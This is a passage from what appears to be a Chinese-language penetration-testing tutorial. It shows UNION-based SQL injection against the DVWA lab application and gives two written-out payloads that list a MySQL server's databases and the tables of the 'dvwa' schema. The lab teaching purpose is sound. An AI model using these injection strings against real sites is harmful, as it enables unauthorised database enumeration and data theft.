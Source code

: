 使用 DVWA 示例，假设您只有两列来获取信息，从询问数据库名称和应用程序用于连接到 DBMS 的用户开始。

这是通过 MySQL 中预定义的`database()`和`user()`函数完成的：

![](img/00133.jpeg)

您还可以通过注入以下内容来询问服务器上的数据库列表：

```

2' union SELECT schema_name,2 FROM information_schema.schemata -- '

```

![](img/00134.jpeg)

`information_schema`是包含 MySQL 的所有配置和数据库定义信息的数据库，因此`dvwa`应该是与目标应用程序对应的数据库。现在让我们查询该数据库中包含的表：

```

2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '

```
